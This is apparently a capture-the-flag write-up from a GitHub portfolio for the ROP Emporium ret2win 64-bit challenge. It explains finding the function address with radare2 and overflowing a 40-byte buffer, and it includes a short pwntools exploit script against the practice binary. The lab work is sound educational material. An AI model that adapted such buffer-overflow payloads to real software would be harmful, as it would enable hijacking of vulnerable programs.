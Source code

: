 # ROP EMPORIUM

***

| Challenge          | Walkthrough                                                                                  |
| ------------       | --------                                                                                     |
| [Ret2Win](#ret2win)| [pdf](https://github.com/jpowellroot/Pwnfolio/blob/master/ROP_Emporium/Writeups/Ret2win64.pdf)|
| Split              |                                                                                              |
| Callme             |                                                                                              |
| Write4             |                                                                                              |

***

## RET2WIN 64<a name="ret2win"></a>

> ### 1. Problem
>> In this challenge, there is a function called ret2win located somewhere
>> in the binary which can be used to cat the flag.txt file. The goal is to:
>>
>> - [ ] Find offset of the ret2win function
>>
>> - [ ] Find out the buffer length
>>
>> - [ ] Overflow the buffer and overwrite `$rsp` with the ret2win address offset

> ### 2. Solution
>> - [X] Find offset of the ret2win function
>>> I used the `> afl` command in radare2 to list the functions with their offsets.
>>> This showed me that the ret2win function was located at address 0x00400756.
>>
>> - [X] Find out the buffer length
>>> In the ROP Emporium challenges all of the buffers are 40 bytes long.
>>
>> - [X] Overflow the buffer and overwrite `$rsp` with the ret2win address offset
>>> I used a pwntools script in order to execute the exploit.
~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('ret2win')
context.log_level = 'debug'

padding = cyclic(40)
ret2win = p64(0x00400756)

payload = padding
payload += ret2win

io = process(elf.path)
io.sendline(payload)
io.wait_for_close()
io.recvall()

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 
***
